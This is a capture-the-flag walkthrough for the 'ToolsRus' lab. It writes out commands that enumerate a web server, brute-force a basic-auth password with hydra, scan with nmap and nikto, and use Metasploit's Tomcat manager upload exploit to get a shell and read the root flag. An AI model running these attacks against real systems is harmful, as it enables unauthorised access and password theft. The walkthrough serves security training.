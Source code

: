 # ToolsRus

## Practise using tools such as dirbuster, hydra, nmap, nikto and metasploit

# ToysRus

## Your challenge is to use the tools listed below to enumerate a server, gathering information along the way that will eventually lead to you taking over the machine.

### What directory can you find, that begins with a "g"?

1. Use dirbuster, there is only one directory that begins with "g"

```Bash
dirbuster
```

[SCREEN01]
[SCREEN02]

### Whose name can you find from this directory?

1. Just go to the endpoint

[SCREEN03]

### What directory has basic authentication?

1. In dirbuster results there is one results with status 401

[SCREEN02]

### What is bob's password to the protected part of the website?

1. Use hydra

```Bash
hydra -l bob -P /root/Desktop/wordlists/rockyou.txt <IP> http-get /protected
```

- `-l`: Single username specification
- `-P`: Password list file path

[SCREEN04]

### What other port that serves a webs service is open on the machine?

1. This will be the next one after 80

```Bash
nmap -p- -sV <IP>
```

- `-p-`: Allow us to scan all 65535 TCP ports
- `-sV`: Probes ports to determine service/version info

[SCREEN05]

### What is the name and version of the software running on the port from question 5?

It will be revealed after going to `http://<IP>:1234/`

[SCREEN06]

### Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above. How many docume0

```Bash
nikto -h http://<IP>:1234/manager/html -id bob:b**s
```

- `-h`: specifies the host (including port if non-standard)
- `-id`: provides credentials in username:password format

[SCREEN07]

### What is the server version?

1. Use nikto on port 80

```Bash
nikto -h http://<IP>:80
```

- `-h`: Specifies the host target

[SCREEN08]

### What version of Apache-Coyote is this service using?

1. We have found the answer in our nmap enumeration

[SCREEN05]

### Use Metasploit to exploit the service and get a shell on the system. What user did you get a shell as?

1. Select the `multi/http/tomcat_mgr_upload`

```Bash
msfconsole
search tomcat
use 18
set RHOSTS <IP>
set RPORT 1234
set HttpUsername bob
set HttpPassword b**s
run
shell
id
```

[SCREEN09]

### What flag is found in the root directory?

```Bash
cat /root/flag.txt
```

[SCREEN10]
